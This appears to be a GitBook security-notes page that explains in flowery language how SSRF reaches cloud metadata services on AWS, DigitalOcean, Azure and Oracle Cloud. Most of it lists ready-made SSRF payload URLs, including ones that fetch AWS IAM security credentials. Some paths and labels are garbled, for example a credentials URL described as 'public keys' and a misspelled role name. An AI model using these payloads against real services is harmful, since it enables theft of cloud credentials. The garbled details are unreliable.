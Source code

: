 ```yaml
---
cover: ../../.gitbook/assets/10.png
coverY: -15
---
```


# 🎣 Unveiling the Secrets of Cloud Provider Metadata Through SSRF

In the realm of cybersecurity, Server-Side Request Forgery (SSRF) emerges as a cunning infiltrator, capable of unveiling the closely guarded secrets of cloud providers like AWS, Google Cloud, Azure, and DigitalOcean. This covert operation relies on the art of exploiting private addressing, cleverly concealed within each provider's documentation.

### **AWS: Navigating the AWS Matrix**

For AWS, the attacker's journey commences with a departure from the familiar realms of 'localhost' or '127.0.0.1,' and instead embarks on an odyssey towards the enigmatic '169.254.169.254' address—a portal to the AWS matrix of information. Here, a trove of valuable data awaits, including public keys, security credentials, hostnames, unique IDs, and much more.

* _Unmasking User Data_: The attacker navigates the AWS labyrinth with URLs like:

```
https://target.com/page?url=http://169.254.169.254/latest/user-data
```

Unveiling hidden user data, like a cryptographer deciphering an ancient scroll.

* _IAM Credentials_: The journey deepens as URLs reveal the hidden identities within AWS:

```
https://target.com/page?url=http://169.254.169.254/latest/user-data/iam/security-credentials/ROLE_NAME
```

Like a spy seeking covert aliases, the attacker discovers IAM security credentials.

* _Meta-Data Quest_: The meta-data realms are rich with secrets to plunder:

```
https://target.com/page?url=http://169.254.169.254/latest/meta-data
```

Within, one can uncover a trove of insights, from hostnames to AMI IDs and more.

* _Public Key Pursuit_: In this expedition, the attacker seeks the keys to the kingdom:

```
https://target.com/page?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

Public keys, like mystical artifacts, are ready to be seized.

AWS's official documentation holds even more cryptic links, unveiling the full extent of their metadata treasure trove.

### **DigitalOcean: Navigating the Digital Seas**

Much like AWS, DigitalOcean sails the seas of '169.254.169.254,' guarding its secrets in the depths of metadata. Adventurers are encouraged to consult the documentation for further maps.

* _Metadata Mapping_: URLs like this lead to the secrets of DigitalOcean's metadata:

```
https://target.com/page?url=http://169.254.169.254/metadata/v1.json
```

Here, the attacker deciphers the JSON-encoded metadata, revealing invaluable information.

* _Identity Insights_: Another trail to follow, hinting at identity revelations:

```
https://target.com/page?url=http://169.254.169.254/metadata/v1/id
```

Identity data becomes a treasure trove waiting to be unearthed.

* _UserData Unveiled_: The pursuit of user data continues:

```
https://target.com/page?url=http://169.254.169.254/metadata/v1/user-data
```

What secrets lie within the user data vault?

* _Regional Revelations_: Regional metadata exploration leads to uncharted territory:

```
https://target.com/page?url=http://169.254.169.254/metadata/v1/region
```

Insights into the server's geographical context emerge.

* _Interface Intrigue_: Investigating interfaces, a deeper understanding is achieved:

```
https://target.com/page?url=http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
```

Even IPv6 addresses are laid bare for scrutiny.

### **Azure and Oracle Cloud: Limited Yet Intriguing Secrets**

Azure and Oracle Cloud, though more guarded in their revelations, harbor their own troves of concealed data, accessible through SSRF.

### **Azure: Navigating Azure's Metadata**

Azure's metadata can be unveiled with a specific header requirement: 'Metadata: true.' Once this entry point is secured, explorers can delve into the hidden domains.

* _Maintenance Insights_: A glimpse into Azure's maintenance activities awaits:

```
https://target.com/page?url=http://169.254.169.254/metadata/maintenance
```

Discover the behind-the-scenes operations that keep Azure running smoothly.

* _Instance Exploration_: Further into the Azure labyrinth, uncover instance-specific metadata:

```
https://target.com/page?url=http://169.254.169.254/metadata/instance?api-version=2019-10-01
```

Dive into the unique characteristics of your Azure instance.

* _IP Address Intel_: For those curious about IP addresses, Azure discloses IPv4 details:

```
https://target.com/page?url=http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2019-10-01&format=text
```

Gain insights into public IP addresses associated with your Azure instance.

### **Oracle Cloud: Unearthing Oracle's Mysteries**

Oracle Cloud, with its secrets hidden behind the '192.0.0.192' address, invites intrepid explorers to uncover its concealed treasures.

* _Latest Discoveries_: Begin your quest by accessing the latest revelations from Oracle Cloud:

```
https://target.com/page?url=http://192.0.0.192/latest/
```

Learn what's currently on offer from Oracle's digital realm.

* _Metadata Expedition_: Venture deeper into the metadata territory:



```
https://target.com/page?url=http://192.0.0.192/latest/meta-data/
```

Explore metadata that sheds light on the inner workings of Oracle Cloud.

* _User Data Quest_: Seek user-specific data, a key to understanding Oracle's ecosystem:

```
https://target.com/page?url=http://192.0.0.192/latest/user-data/
```

Uncover the digital footprint left by users within Oracle Cloud.

* _Attributes Unveiled_: Delve into attributes that define Oracle's digital landscape:

```
https://target.com/page?url=http://192.0.0.192/latest/attributes/
```

Gain a deeper understanding of the attributes that shape Oracle Cloud's operations.

As you embark on these expeditions into the hidden realms of Azure and Oracle Cloud, remember that with great knowledge comes great responsibility. While these discoveries provide insights, they also highlight the importance of safeguarding such sensitive information from unauthorized access and potential security threats.
